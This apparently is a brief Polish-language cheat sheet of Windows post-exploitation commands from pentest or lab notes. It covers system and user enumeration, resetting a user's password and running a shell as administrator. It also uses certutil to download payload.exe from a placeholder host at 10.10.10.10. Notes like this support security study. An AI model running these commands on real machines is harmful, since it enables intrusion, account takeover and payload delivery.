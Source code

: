 ```PowerShell
whoami
systeminfo
ipconfig
net users # lista userów w windows
net localgroup administrators # check if the user is a member of the Administrators group
net user admin passwd123 # zmiana hasła usera ?
```

pobierz plik znajdujący się pod adresem http://10.10.10.10:1234/file.exe i nazwij go payload.exe 
```PowerShell
certutil -urlcache -f http://10.10.10.10:1234/file.exe payload.exe # narzędzie do pobierania plików (jak curl)
```

uruchom komendę jako innny user (administrator)
```PowerShell
runas.exe /user:administrator cmd
```
